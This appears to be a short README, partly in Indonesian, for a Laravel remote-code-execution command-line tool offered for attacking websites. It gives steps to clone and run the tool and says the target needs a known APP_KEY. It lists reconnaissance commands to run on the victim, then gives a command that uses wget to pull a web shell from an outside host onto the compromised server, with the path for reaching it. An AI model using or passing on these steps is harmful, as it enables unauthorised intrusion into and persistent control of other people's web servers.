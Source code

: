 ### Laravel_rce
Laravel Remote Code Execution CLI
```
$ pkg install git
$ php install php
$ git clone https://github.com/yrxsecurity/laravel_rce
$ cd laravel_rce
$ php memek.php
```
Web Nya Harus Memiliki APP_KEY , BIAR BISA EKSEKUSI RCE NYA

Basic Command : ls , id , whoami , uname -a , wget

### Laravel RCE Reserve Shell
```
Command : wget http://dyan6etar.cf/shell.txt -O NamaShellNya.php (Enter)
```
Akses : site.com/NamaShellNya.php



Subscribe My Channel:D

